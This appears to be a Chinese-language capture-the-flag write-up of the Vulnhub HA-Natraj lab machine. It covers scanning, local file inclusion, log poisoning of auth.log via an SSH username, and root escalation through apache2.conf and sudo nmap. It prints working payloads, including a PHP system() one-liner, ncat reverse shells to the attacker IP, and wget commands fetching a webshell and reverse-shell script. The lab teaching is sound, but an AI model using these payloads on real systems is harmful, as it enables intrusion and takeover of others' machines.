 ```yaml
---

title: Vulnhub 489 HA-NATRAJ

---
```


考点：文件包含、权限继承、lua

靶机链接：https://www.vulnhub.com/entry/ha-natraj,489/

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| natraj     | 10.0.2.6  |

VirtualBox直接导入无法获得IP，解决方法见**[Vulnhub靶机无法获得IP](https://www.iihack.com/2022/08/08/vulnhub-vm-ip.html)**。

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.6
$ nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:9f:da:f4:2e:67:01:92:d5:da:7f:70:d0:06:b3:92 (RSA)
|   256 bc:ea:f1:3b:fa:7c:05:0c:92:95:92:e9:e7:d2:07:71 (ECDSA)
|_  256 f0:24:5b:7a:3b:d6:b7:94:c4:4b:fe:57:21:f8:00:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

看来漏洞大概率只能出在web应用上了。

### WEB测试

查看源代码，全静态，看看有没有二级目录

#### dirb

```bash
$ dirb http://10.0.2.6/
-----------------
URL_BASE: http://10.0.2.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.0.2.6/ ----
==> DIRECTORY: http://10.0.2.6/console/                                                                            
==> DIRECTORY: http://10.0.2.6/images/                                                                             
+ http://10.0.2.6/index.html (CODE:200|SIZE:14497)                                                                 
+ http://10.0.2.6/server-status (CODE:403|SIZE:273)  
```

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.6/
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927
Target: http://10.0.2.6/
[04:01:31] Starting:                                         
[04:01:51] 301 -  306B  - /console  ->  http://10.0.2.6/console/            
[04:01:51] 200 -  936B  - /console/
[04:01:56] 200 -    5KB - /images/                                          
[04:01:56] 301 -  305B  - /images  ->  http://10.0.2.6/images/              
[04:01:56] 200 -   14KB - /index.html                                       
[04:02:12] 403 -  273B  - /server-status/                                   
[04:02:13] 403 -  273B  - /server-status                                    

Task Completed 
```

发现存在console目录

![1]( https://static.iihack.com/vulnhub/489/1.JPG)

### 漏洞发现

访问`http://10.0.2.6/console/file.php`页面空白，盲猜这里有个file参数，可能存在本地文件包含LFI。

```bash
http://10.0.2.6/console/file.php?file=/etc/passwd
```

![2]( https://static.iihack.com/vulnhub/489/2.JPG)

## 获得权限

尝试包含`/var/log/apache2/access.log`等失败，发现包含`/var/log/auth.log`成功了

### 本地测试

测试写入`/var/log/auth.log`文件

```bash
$ ssh '<?php system($_GET[123]);?>'@127.0.0.1
```

![3]( https://static.iihack.com/vulnhub/489/3.JPG)

看效果写入成功

### 靶机测试

```bash
$ ssh '<?php system($_GET[123]);?>'@10.0.2.6 
```

![4]( https://static.iihack.com/vulnhub/489/4.JPG)

`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444`创建了端口连接，但是`http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=nc 10.0.2.15 444 -e /bin/sh`失败了，说明这个靶机的`nc`没有`-e`参数

#### 思路一

可使用ncat代替nc

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=ncat 10.0.2.15 444 -e /bin/bash
```

成功接收反弹

#### 思路二

写一句话文件

在auth.log发现目录`/var/www/html/console`

使用python快速本地起http服务`python -m 'http.server' 80`

尝试下载文件写入目录`/var/www/html/console/`写入失败

尝试下载文件写入目录`/var/www/html/`写入成功

```http
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/2.php -O /var/www/html/2.php
```

使用antsword连上

![5]( https://static.iihack.com/vulnhub/489/5.JPG)



#### 思路三

修改kali自带的php反弹shell脚本 `/usr/share/webshells/php/php-reverse-shell.php`

![6]( https://static.iihack.com/vulnhub/489/6.JPG)

下载反弹shell脚本到/tmp目录并执行

```
http://10.0.2.6/console/file.php?file=/var/log/auth.log&123=wget http://10.0.2.15/php-reverse-shell.php -O /tmp/1.php|php /tmp/1.php
```

成功接收反弹

## 提权

切换到交互式shell

```bash
$ whereis python
python: /usr/bin/python3.6m /usr/bin/python3.6 /usr/lib/python3.6 /usr/lib/python3.7 /usr/lib/python2.7 /etc/python3.6 /usr/local/lib/python3.6
$ python3.6 -c 'import pty; pty.spawn("/bin/bash")'
```

上传[linpeas.sh](https://www.iihack.com/pages/tools/linpeas.sh.html)并运行发现apache2配置文件可以更改

![7]( https://static.iihack.com/vulnhub/489/7.JPG)

```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
natraj:x:1000:1000:natraj,,,:/home/natraj:/bin/bash
mahakal:x:1001:1001:,,,:/home/mahakal:/bin/bash
```

### natraj

修改/etc/apache2/apache2.conf将运行权限修改为natraj，重启靶机系统，反弹shell，再次运行linpeas.sh未发现有用信息

### mahakal

修改/etc/apache2/apache2.conf将运行权限修改为mahakal，重启靶机系统，反弹shell，再次运行linpeas.sh

发现可以免密运行`sudo nmap`

![9]( https://static.iihack.com/vulnhub/489/9.JPG)

想到nmap可以执行script，而script是lua语言编写，应该可以执行系统命令

参考 https://www.lua.org/pil/22.2.html 编写文件555

![10]( https://static.iihack.com/vulnhub/489/10.JPG)

通过`nmap`加载555

![11]( https://static.iihack.com/vulnhub/489/11.JPG)

成功接收root反弹

![12]( https://static.iihack.com/vulnhub/489/12.JPG)
